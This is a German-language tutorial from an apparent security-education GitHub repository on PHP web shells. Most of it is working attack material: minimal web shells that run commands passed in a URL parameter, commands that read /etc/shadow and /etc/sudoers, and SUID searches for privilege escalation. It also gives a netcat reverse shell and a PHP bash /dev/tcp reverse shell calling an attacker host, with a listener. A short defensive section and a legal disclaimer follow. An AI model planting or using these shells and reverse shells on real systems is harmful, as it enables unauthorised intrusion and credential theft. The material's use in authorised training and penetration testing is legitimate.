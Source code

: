 # 🐚 PHP WebShell Usage Guide

---

## Inhaltsverzeichnis

- [Einleitung](#einleitung)
- [Beispiel einer einfachen PHP Webshell](#beispiel-einer-einfachen-php-webshell)
- [Typische Webshell-Kommandos](#typische-webshell-kommandos)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Daten exfiltrieren oder Reverse Shell starten](#daten-exfiltrieren-oder-reverse-shell-starten)
- [Schutzmaßnahmen gegen PHP-Webshells](#schutzmaßnahmen-gegen-php-webshells)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.

---

## Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```

### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```

### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```

### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.

---

## Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.

---

## Siehe auch:

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main//04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main//04-os-enumeration/post_exploitation_tools.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/cmd_examples_from_shell.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/cmd_examples_from_shell.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
